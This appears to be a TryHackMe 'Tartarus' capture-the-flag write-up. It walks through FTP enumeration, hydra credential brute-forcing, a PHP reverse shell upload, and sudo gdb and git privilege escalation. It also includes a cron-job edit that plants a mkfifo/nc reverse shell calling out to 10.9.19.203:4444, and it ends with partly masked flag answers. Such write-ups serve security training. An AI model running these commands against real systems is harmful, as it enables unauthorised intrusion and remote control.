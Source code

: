 # TryHackMe Tartarus

**This is an beginner box based on simple enumeration of services and basic privilege escalation techniques. Based jake**

## Task-1 Tartarus

* *Enumeration* - Doing nmap scan gave us 21,22,80 port open. 

* *Port -21* : FTP allowed us anonymous login. So typing command '*ftp IP*' and then 'anonymous' as name and password gave us a successful login. After that we can see a file named 'test.txt' and a directory '...' in the FTP shell. Get the .txt file on your shell using command '*get test.txt*'. Now go to '...' directory. It again gave a same named directory. Again going into that gave us another file named 'yougotgoodeyes.txt'. Get this file on your shell.

* Now see the content of test file. It just gave us 'vsftpd test file'. Now see for yougotgoodeyes.txt and it gives us a directory. Now we shall go on browser.

* *Port -80* : Open the link in browser. It gaves a default Apache2 page. On trying 'robots.txt' on the site gave us another directory along with a username : 'd4rckh'.

* Going on the above directory gave us two files 'credentials.txt' and 'userid'. Get these files on your machine using wget. 

* Also from FTP we got a directory. Opening that gave us a login page. So we have a list of usernames, password and a login page. Simple idea is to use hydra for password cracking. 

* Type the command ' *hydra -L userid -P credentials.txt IP http-post-form "/<directoryWhihcWeGotFromFTP>/authenticate.php:username=^USER^&password=^PASS^:Incorrect username!* '.  This will give username. 

* Now to crack password we will use command ' *hydra -l <userFromAboveResult> -P credentials.txt IP http-post-form "/<directoryWhihcWeGotFromFTP>/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!* '. This will give us our password.

* Now login into the site using these creds. After that it gives us a uploading file option. We can upload our php reverse shell there. After uploading that start you nc listener. After that go to /<directoryWhihcWeGotFromFTP>/images/uploads/phpRevShell.php and you will get your shell.

* After logging into the shell we can see that we are 'www-data'. Go to '/home'	to see the list of users. Now type 'sudo -l' and we see that a user 'thirtytwo' can run gdb command. Now go to https://gtfobins.github.io/ to search for gdb sudo and we find one. Now type this command ' *sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex q* '. Now we are 'thirtytwo'.

* Again type 'sudo -l' and we see that 'd4rckh' can run git. Again go to https://gtfobins.github.io/ to search for git sudo. Now type ' *sudo -u d4rckh /usr/bin/git -p help config* ' and then type '!bash' to gain a bash shell. Now go to '/home/d4rckh'. In there we see a 'cleanup.py' file and 'user.txt' file  which is your user flag.

* We can edit this file to gain root shell. Also if you see '/etc/crontab' we can see that cleanup.py is running as a cronjob. Now edit .py file and type ' *os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.19.203 4444 >/tmp/f')* ' in the 'try' block and simultaneously start nc listener in other window. Wait for some time and your root shell will be spawned.

*  Now type ' *cat /root/root.txt* ' to gain root flag.

## 1. User Flag
Answer : 0f7dbb2243e692e3ad222b**********

## 2. Root Flag
Answer : 7e055812184a5fa5109d5d**********